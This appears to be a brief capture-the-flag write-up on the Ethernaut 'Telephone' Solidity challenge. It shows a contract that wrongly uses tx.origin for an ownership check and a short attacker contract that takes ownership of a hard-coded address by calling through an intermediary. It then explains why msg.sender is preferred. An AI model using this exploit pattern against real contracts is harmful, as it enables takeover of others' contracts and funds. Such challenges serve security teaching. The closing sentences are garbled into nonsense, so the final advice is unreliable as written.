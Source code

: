 ## Telephone

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

```solidity
contract ClaimOwnership{
    function telephone() external {
        Telephone(0x8C980640880b858087ccBE7D16F2102317CD3aaB).changeOwner(0x98979Be841a5621339aAbE07CbdCcE8fd358591c);
    }
}
```

With msg.sender the owner can be a contract.

With tx.origin the owner can never be a contract.

In a simple call chain A->B->C->D, inside D msg.sender will be C, and tx.origin will be A.

msg.sender is preferred for the flexibility it provides. Furthermore, for Serenity, even though it's a while out, Vitalik recommends avoiding tx.origin: How do I make my DAPP "Serenity-Proof?"

Carefully consider if you really ever need to use tx.origin. Remember, you may not be the only user of your contract. Other people may want to use your contract and want to interact with it via a contract they've been written.

In this Telephone contract tx.origin was misused, meaning anyone can call the contract will a contract and msg.sender will ever be tx.origin.
NOTE: Ever tx.origin to be what you consider to state the state of your contract.